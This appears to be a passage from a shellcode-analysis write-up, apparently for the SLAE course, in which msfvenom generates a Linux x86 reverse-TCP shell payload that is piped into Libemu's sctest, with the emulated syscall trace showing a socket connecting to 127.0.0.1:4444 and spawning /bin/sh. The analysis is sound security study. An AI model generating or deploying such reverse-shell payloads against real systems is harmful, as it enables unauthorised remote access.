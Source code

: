The Sctest tool, part of the Libemu test suite, is used to inspect the program code and analyze the system calls:

```bash
osboxes@osboxes:~/Downloads/SLAE$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 R | sctest -vvv -Ss 42

int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int dup2 (
     int oldfd = 14;
     int newfd = 2;
) =  2;
int dup2 (
     int oldfd = 14;
     int newfd = 1;
) =  1;
int dup2 (
     int oldfd = 14;
     int newfd = 0;
) =  0;
int connect (
     int sockfd = 14;
     struct sockaddr_in * serv_addr = 0x00416fbe => 
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 23569 (port=4444);
             struct in_addr sin_addr = {
                 unsigned long s_addr = 16777343 (host=127.0.0.1);
             };
             char sin_zero = "       ";
         };
     int addrlen = 102;
) =  0;
int execve (
     const char * dateiname = 0x00416fa6 => 
           = "//bin/sh";
     const char * argv[] = [
           = 0x00416f9e => 
               = 0x00416fa6 => 
                   = "//bin/sh";
           = 0x00000000 => 
             none;
     ];
     const char * envp[] = 0x00000000 => 
         none;
) =  0;
```
